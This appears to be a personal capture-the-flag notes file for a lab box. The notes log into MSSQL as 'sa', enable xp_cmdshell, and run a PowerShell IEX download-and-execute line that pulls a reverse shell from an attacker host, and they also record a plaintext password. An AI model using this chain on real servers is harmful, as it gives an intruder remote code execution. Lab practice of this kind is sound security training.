   
//using files...we got creds..for whatever reason no windows auth!!!!  
// 0...Set up lisetener (and maybe python server)  
// 1...enable xp cmdshell  
// 2..shell  
  
// See below for steps...  
  
//rose is a no go she can't execute cmdshell shit  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ mssqlclient.py rose@sequel.htb -windows-auth  
  
  
//I used nishang shell, it was there and easy, but revshells.com works with powershell#3 b64  
──(kali㉿Senbonzakura)-[~/escape/accounts]  
└─$ impacket-mssqlclient sa@sequel.htb  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies  
  
Password:  
[*]Encryption required, switching to TLS  
[*]ENVCHANGE(DATABASE): Old Value: master, New Value: master  
[*]ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english  
[*]ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192  
[*]INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.  
[*]INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.  
[*]ACK: Result: 1 - Microsoft SQL Server (150 7208)  
[!] Press help for extra shell commands  
SQL (sa  dbo@master)> EXEC sp_configure 'show advanced option', '1';  
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.  
SQL (sa  dbo@master)> RECONFIGURE  
SQL (sa  dbo@master)>  
SQL (sa  dbo@master)> EXECUTE sp_configure 'xp_cmdshell', 1  
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.  
SQL (sa  dbo@master)> RECONFIGURE  
SQL (sa  dbo@master)> EXEC xp_cmdshell 'powershell -NoProfile -ExecutionPolicy Bypass -Command "& {IEX(New-Object Net.WebClient).DownloadString(''http://10.10.xx.xx:8000/Invoke-PowerShellTcp.ps1'')}"''  
  
MSSQLP@ssw0rd!  
  
  
/* if you use this I think I said have python3 simple server running....payload is limited by imagination, mine was thinking fast and loud */  
  
The xp_cmdshell thing...  
#########  
EXEC sp_configure 'show advanced option', '1';  
RECONFIGURE  
  
EXECUTE sp_configure 'xp_cmdshell', 1  
RECONFIGURE  
  
  
EXEC xp_cmdshell 'powershell -NoProfile -ExecutionPolicy Bypass -Command "& {IEX(New-Object Net.WebClient).DownloadString(''http://10.10.xx.xx:8000/Invoke-PowerShellTcp.ps1'')}"'  
##########  
  